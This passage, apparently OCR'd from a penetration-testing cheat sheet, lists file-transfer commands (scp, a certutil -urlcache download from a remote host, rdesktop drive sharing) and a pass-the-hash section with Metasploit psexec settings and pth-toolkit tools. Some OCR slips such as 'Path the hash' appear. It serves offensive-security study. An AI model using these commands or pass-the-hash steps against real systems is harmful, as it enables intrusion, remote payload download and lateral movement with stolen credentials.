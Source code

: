             -   scp /path/to/source/file.txt <username@192.168.1.101:/path/to/destination/file.txt>

            -   scp \[local\_file\_path\] [username\@192.168.0.10:\[remote\_file\_path\]]

            -   scp -c blowfish \[local\_file\] username\@192.168.0.10:/some/remote/directory -\> use blowfish

        -   Upload a directory :

            -   scp -r \[local\_dir\] username\@192.168.0.10:/some/remote/directory/\[remote\_dir\]

        -   Download a directory:

            -   scp --r username\@192.168.0.10:\[remote\_dir\] /some/local/directory

        -   Download a file

            -   scp username\@192.168.0.10:\<remote\_file\> /some/local/directory

    -   **Certutil**

        -   certutil.exe -urlcache -split -f [https://192.168.1.5:8888/filename] outputfilename

    -   **Vbscript -\> windows**

    -   **rdp**

        -   rdesktop 10.10.10.10 -r disk:linux=\'/home/user/filetransferout\'

-   <h2 align="center">Path the hash (pth)</h2>

    -   pass the hash is a technique that can let us login and  connects to the victim using the Server Message Block (SMB) protocol and performs authentication using the username and  the NTLM hash   instead of userrname and plaintext password so if we found an ntlm hash  we dont need to crack the hash   :(windows has a vulnerability that we can login with the hash without cracking it) Note that this will not work for Kerberos authentication but only for server or service using NTLM authentication. (very usefull in pivoting)

    -   **Metasploit**

        -   use exploit/windows/smb/psexec   

        -   set rhost 

        -   set SMBPASS \<hash\> 

        -   set smbuser \<adminname\>

        -   set smbdomain workgroup

        -   run

    -   **Pth-toolkit (linux platform)**

        -   **Pth-toolkit**

            -   set of tools to pass the hash from a Linux platform. They are installed by default on Kali

        -   **Pth tools**

            -   pth-net: (/usr/bin/pth-net) executes net commands (net user, net share) on remote hosts

            -   pth-rpcclient: (/usr/bin/pth-rpcclient)opens an session to execute RPC commands

            -   pth-smbclient: (/usr/bin/pth-smbclient) browses available shares on remote computers
